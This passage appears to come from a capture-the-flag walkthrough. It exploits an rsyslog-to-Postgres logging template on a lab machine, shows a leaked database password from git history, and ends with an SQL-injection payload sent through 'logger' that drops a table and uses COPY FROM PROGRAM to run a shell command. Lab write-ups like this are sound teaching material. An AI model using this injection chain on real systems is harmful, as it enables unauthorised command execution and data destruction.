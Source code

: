 It seems like that **Syslog** is running on the box and the installation path is in _/etc/rsyslog.d_.
In there is a _.git_ directory and by looking at the history, it shows that there are credentials in one of the commits:
```
git log -p
```
```
(...)
+template(name="sql-syslog" type="list" option.sql="on") {
+  constant(value="INSERT INTO syslog_lines (message, devicereportedtime) values ('")
+  property(name="msg")
+  constant(value="','")
+  property(name="timereported" dateformat="pgsql" date.inUTC="on")
+  constant(value="')")
+}
+
+# load module
+module(load="ompgsql")
+
+# Only forward local7.info for testing.
+local7.info action(type="ompgsql" server="localhost" user="postgres" pass="test1234" db="syslog" template="sql-syslog")
```

These credentials are for a **Postgres database** and by checking the local ports, the service seems to run on port 5432:
```
ss -lnpt

127.0.0.1:5432
```

Login into the Postgres database:
```
psql -h localhost -U postgres
```

Unfortunately the password does not work, but the git commit shows a vulnerability with which it is possible to control one of the properties by injecting invalid SQL commands.
As the user _roy_ is a member of _adm_, it is possible to read log files.

Lets send an invalid command to the database with `logger` while looking at the log file _/var/log/postgresql/postgresql-11-main.log_:
```
logger -p local7.info "test'"
```
```
tail -f /var/log/postgresql/postgresql-11-main.log

(...)
[1908] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\'','2021-05-06 17:45:42')
```

In the log file's error message is the single quote and the string that gets injected and that can be abused to run commands:
```
logger -p local7.info "',null); DROP TABLE IF EXISTS test; CREATE TABLE test(cmd_output text); COPY test FROM PROGRAM \$$ ping -c 1 10.10.14.22 \$$;-- -"
```
